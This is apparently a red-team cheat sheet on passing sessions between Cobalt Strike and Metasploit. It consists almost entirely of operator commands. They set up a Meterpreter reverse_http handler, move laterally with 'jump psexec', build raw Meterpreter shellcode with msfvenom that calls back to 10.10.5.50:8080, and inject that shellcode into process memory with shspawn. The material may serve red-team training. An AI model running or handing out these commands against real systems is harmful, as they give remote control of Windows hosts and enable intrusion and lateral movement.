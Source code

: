 # Session Passing

## CASE 1: Beacon Passing (Within Cobalt Strike - Create alternate HTTP beacon while keeping DNS as lifeline)

    beacon> spawn x64 http

## CASE 2: Foreign Listener (From CS to Metasploit - Staged Payload - only x86 payloads)

# Setup Metasploit listener

    attacker@ubuntu ~> sudo msfconsole -q
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
    msf6 exploit(multi/handler) > set LHOST ens5
    msf6 exploit(multi/handler) > set LPORT 8080
    msf6 exploit(multi/handler) > run

# Setup a Foreign Listener in cobalt strike with above IP & port details

# Use Jump psexec to execute the beacon payload and pass the session

    beacon> jump psexec Foreign_listener

## CASE 3: Shellcode Injection (From CS to Metasploit - Stageless Payload)

# Setup up metasploit

    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_http
    msf6 exploit(multi/handler) > exploit

# Generate binary

    ubuntu@DESKTOP-3BSK7NO ~> msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin

# Inject msf shellcode into process memory

    beacon> shspawn x64 C:\Payloads\msf_http_x64.bin
